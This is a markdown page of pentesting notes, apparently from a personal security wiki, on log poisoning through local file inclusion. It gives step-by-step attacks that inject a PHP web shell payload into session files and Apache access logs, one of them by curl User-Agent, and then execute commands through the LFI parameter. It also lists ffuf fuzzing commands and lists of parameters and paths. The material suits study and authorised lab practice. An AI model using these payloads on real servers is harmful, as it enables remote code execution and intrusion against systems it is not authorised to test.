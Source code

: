 ```yaml
---
title: Log poisoning attack - File inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
```

# Log poisoning attack - File inclusion


This attack relies on:

- Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file)
- Reading via Local File Inclusion that log file to execute the PHP code.

If any of the following functions has `Execute` privileges, then the app is vulnerable to this attack:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

##  Session poisoning

**1.** Reading the log. I we have the following PHPSession cookie:

```
Cookie: PHPSession=nhhv8i0o6ua4g88bkdl9u1fdsd
```

Then, its location on disk would be:

```
# Linux
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

# Windows
C:\Windows\Temp\sessions\sess_el4ukv0kqbvoirg7nkp4dncpk3
C:\Windows\Temp\sess_el4ukv0kqbvoirg7nkp4dncpk3
```

Now, from the endpoint vulnerable to LFI, we can read the log for our session:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

# My example:
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf
```

Screenshot:

![Read session](img/log-poisoning_00.png)


We can write the logs with the language parameter. 

**2.** Write the logs with the following malicious payload:

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

whereas the payload is url encoded:

```
<?phpsystem($_GET["cmd"]);?>
```

**3.** Execute the shell:

```
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf&cmd=ls
```

![](img/log-poisoning_01.png)

Executing the shell requires writing the shell into the log every time (step 2).

## Server Log Poisoning

Apache maintains various logs files under `var/log/apache2/` on Linux and `C:\xampp\apache\logs\` on Windows:

- `access.log`
- `error.log`

Nginx logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

**The attack:**

**1.** As we have located a LFI vulnerability, we can read the `access.log` file:

```
http://94.237.54.42:37338/index.php?language=/var/log/apache2/access.log
```

The log contains the remote IP address, request page, response code, and the User-Agent header.


**2.** The User-Agent header is controlled by us through the HTTP request headers, so we should be able to poison this value. We can do it with Burpsuite or via curl:

```shell-session
curl -s "http://94.237.54.42:37338/index.php" -A "<?php system($_GET['cmd']); ?>"
```

**3**. Executing the payload:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=ls+/ HTTP/1.1
Host: 94.237.54.42:37338
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: uid=96; PHPSESSID=giiat46h4vo3robfrnoet7neqf
Upgrade-Insecure-Requests: 1

```


## Interesting files, parameters and servers

### Files

!!! quotes "Enumerating interesting files"
	- [Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)
	- [Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)
	- [Complete dictionary with both Linux and Windows files: https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### Parameters

There are specific lists for parameters, as sometimes there might exists a parameter not visible in the application:

```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2309
```


This is a list of some typical parameters vulnerable to LFI:

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

Using ffuf to test vulnerable parameters:

```shell-session
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287


ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.54.231:47114/index.php?language=FUZZ' -fs 2287
```


### Server webroot path, server configurations file, and server logs


- /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt

```
var/www/html/
var/www/
var/www/sites/
var/www/public/
var/www/public_html/
var/www/html/default/
srv/www/
srv/www/html/
srv/www/sites/
home/www/
home/httpd/
home/$USER/public_html/
home/$USER/www/
```

- /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-windows.txt

```
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```


Using ffuf to locate the root server:

```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```


